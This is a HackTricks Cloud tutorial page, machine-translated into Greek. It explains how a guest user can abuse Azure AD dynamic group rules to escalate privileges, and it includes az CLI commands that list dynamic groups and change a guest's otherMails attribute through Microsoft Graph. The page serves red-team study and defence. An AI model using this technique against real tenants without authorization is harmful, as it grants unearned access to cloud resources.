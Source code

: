 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Δυναμικές ομάδες** είναι ομάδες που έχουν ρυθμισμένο ένα σύνολο **κανόνων** και όλοι οι **χρήστες ή συσκευές** που ταιριάζουν με τους κανόνες προστίθενται στην ομάδα. Κάθε φορά που μια **ιδιότητα** χρήστη ή συσκευής **αλλάζεται**, οι δυναμικοί κανόνες **επαληθεύονται** ξανά. Και όταν ένας **νέος κανόνας** **δημιουργείται**, όλες οι συσκευές και οι χρήστες **ελέγχονται**.

Οι δυναμικές ομάδες μπορούν να έχουν **ρόλους Azure RBAC** ανατεθειμένους σε αυτές, αλλά **δεν είναι δυνατή** η προσθήκη **ρόλων AzureAD** σε δυναμικές ομάδες.

Αυτή η δυνατότητα απαιτεί άδεια Azure AD premium P1.

## Privesc

Σημειώστε ότι από προεπιλογή οποιοσδήποτε χρήστης μπορεί να προσκαλεί επισκέπτες στο Azure AD, οπότε, αν ένας κανόνας **δυναμικής ομάδας** δίνει **δικαιώματα** σε χρήστες με βάση **ιδιότητες** που μπορούν να **ρυθμιστούν** σε έναν νέο **επισκέπτη**, είναι δυνατό να **δημιουργηθεί ένας επισκέπτης** με αυτές τις ιδιότητες και να **ανεβούν τα δικαιώματα**. Είναι επίσης δυνατό για έναν επισκέπτη να διαχειρίζεται το προφίλ του και να αλλάζει αυτές τις ιδιότητες.

Αποκτήστε ομάδες που επιτρέπουν Δυναμική συμμετοχή: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

* **Παράδειγμα κανόνα**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Περιγραφή κανόνα**: Οποιοσδήποτε επισκέπτης χρήστης με δευτερεύον email που περιέχει τη λέξη 'security' θα προστεθεί στην ομάδα

Για το email του επισκέπτη χρήστη, αποδεχτείτε την πρόσκληση και ελέγξτε τις τρέχουσες ρυθμίσεις **αυτού του χρήστη** στο [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Δυστυχώς, η σελίδα δεν επιτρέπει την τροποποίηση των τιμών των ιδιοτήτων, οπότε πρέπει να χρησιμοποιήσουμε το API:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Αναφορές

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

